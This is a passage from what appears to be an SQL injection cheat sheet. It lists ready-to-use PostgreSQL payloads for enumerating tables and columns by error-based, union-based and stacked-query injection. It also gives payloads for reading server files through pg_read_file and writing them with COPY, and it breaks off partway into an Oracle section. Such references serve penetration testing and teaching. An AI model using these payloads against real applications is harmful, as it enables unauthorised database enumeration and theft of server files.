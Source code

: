 ### List Tables:

- Normal
    - `SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';`
- Error based
    - `' (SELECT CAST((SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' LIMIT 1 OFFSET 1) AS integer))--`
- Union Based
    - `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'public' --`
- Stacked Queries:
    - `; SELECT table_name FROM information_schema.tables WHERE table_schema = 'public'; --`

### List columns:

- Normal
    - `SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name';`
- Error based
    - `' (SELECT CAST((SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name' LIMIT 1 OFFSET 1) AS integer))--`
- Union Based
    - `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'table_name' --`
- Stacked Queries:
    - `; SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name'; --`

### Read Files:

- Normal
    - `SELECT pg_read_file('/path/to/file', 0, 1000000);`
- SQLi
    - `' UNION SELECT pg_read_file('/path/to/file', 0, 1000000), NULL --`

### Write Files:

- Normal
    - `COPY table_name TO '/path/to/file' DELIMITER ',' CSV HEADER;`

## ORACLE

### List databases:

- Normal
    - `SELECT name FROM v$database;`
- Error based
    - `' AND (SELECT COUNT(*) FROM v$database) --`
- Union Based
    - `' UNION SELECT name, NULL FROM v$database --`
- Stacked Queries:
    - `; SELECT name FROM v$database; --`

### List Tables:
